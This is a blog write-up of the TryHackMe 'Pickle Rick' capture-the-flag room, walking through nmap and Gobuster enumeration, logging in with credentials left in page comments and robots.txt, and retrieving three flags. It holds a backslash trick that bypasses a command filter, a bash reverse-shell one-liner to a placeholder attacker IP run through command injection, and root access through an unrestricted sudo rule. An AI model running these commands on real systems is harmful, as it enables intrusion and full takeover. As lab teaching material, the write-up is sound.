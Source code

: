 ```yaml
---
layout: post
title:  "THM - Pickle Rick Writeup"
date:   2022-09-11
author:
  - Mario Raciti
tags: ctf offensive vapt
---
```


This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
<!-- readmore -->

There is only one task, indicating that we have to get three ingredients (flags). So without any further ado, let's begin our game!

> TryHackMe CTF Room: <https://tryhackme.com/room/picklerick>

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP -oN logs/nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 00:01 CEST
Nmap scan report for 10.10.166.156
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1b:e2:11:5e:45:4a:75:91:cb:d5:ec:00:2a:1d:cf:65 (RSA)
|   256 1b:78:9f:27:b3:aa:16:c2:b4:c6:be:f8:d2:61:7f:ba (ECDSA)
|_  256 b4:66:1e:a1:27:d3:3c:cc:e1:38:44:f4:79:3c:9e:81 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.51 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Thus, we can guess that a candidate username for a login could be `R1ckRul3s`.

Now let's give a look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

Wubbalubbadubdub
```

Okay maybe `Wubbalubbadubdub` could be a password (?), that is funny though. Furthermore, by trying to discover some admin page, we can find a login page at the `/login.php`endpoint.

### Gobuster

Since we didn't find any useful information apart from the login page, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt -o logs/gobuster.log

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.166.156
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/01 00:13:36 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2020/10/01 00:13:49 Finished
===============================================================
```

As we can see, the tool found only one directory: `/assets`. Therefore we can investigate on that:

```
GET http://$IP/assets/

Parent Directory   -  
bootstrap.min.css 2019-02-10 16:37 119K  
bootstrap.min.js 2019-02-10 16:37 37K  
fail.gif 2019-02-10 16:37 49K  
jquery.min.js 2019-02-10 16:37 85K  
picklerick.gif 2019-02-10 16:37 222K  
portal.jpg 2019-02-10 16:37 50K  
rickandmorty.jpeg 2019-02-10 16:37 488K  
```

It seems that we found some... rubbish!

## First ingredient

Let's try the `R1ckRul3s:Wubbalubbadubdub` login combination in the portal login page found at `$IP/login.php`.

Bingo! We have access to the command panel. Thus, we can try to execute an ls command to see if there is something interesting:

```sh
$ ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

We can try to read the content of `Sup3rS3cretPickl3Ingred.txt`:

```sh
$ cat Sup3rS3cretPickl3Ingred.txt

Command disabled to make it hard for future PICKLEEEE RICCCKKKK
```

Damn. But we can bypass that by escaping every char with a backslash:

```sh
$ \c\a\t Sup3rS3cretPickl3Ingred.txt

***first_ingredient***
```

## Second ingredient

Let's read the content of the `clue.txt` file:

```sh
$ \c\a\t clue.txt

Look around the file system for the other ingredient.
```

Since we can perform command injections, we can try to get a reverse shell. Firstly, we can run netcat and make it listen on port 4444, then we can simply execute the following in the command panel webpage:

```sh
bash -c "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"
```

And voilà! We got a reverse shell:

```sh
$ nc -lvnp 4444

Connection from 10.10.166.156:56724
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-166-156:/var/www/html$ 
```

Now we can go in the home directory and find the second ingredient in Rick's home:

```sh
www-data@ip-10-10-166-156:/var/www/html$ cd ../../home
cd ../../home
bash: cd: ../../home: No such file or directory
www-data@ip-10-10-166-156:/var/www/html$ cd ../../../home
cd ../../../home
www-data@ip-10-10-166-156:/home$ ls
ls
rick
ubuntu
www-data@ip-10-10-166-156:/home$ cd rick
cd rick
www-data@ip-10-10-166-156:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-166-156:/home/rick$ cat *
cat *
***second_ingredient***
```

## Third ingredient

In order to get the latest ingredient we have to elevate our privileges. Let's check out a `sudo -l` for our current user, `www-data`:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-166-156.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-166-156.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, easy peasy! It seems that the user `www-data` is allowed to perform all commands as root. We can finally get the third ingredient:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo su
sudo su
/bin/bash -i
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-166-156:/var/www/html# cd 
cd
root@ip-10-10-166-156:~# ls 
ls 
3rd.txt
snap
root@ip-10-10-166-156:~# cat 3rd.txt
cat 3rd.txt
***third_ingredient***
```

---

### That's all folks

You can find the files related to this CTF at <https://github.com/tsumarios/CTF-Writeups/tree/master/THM/Pickle-Rick>
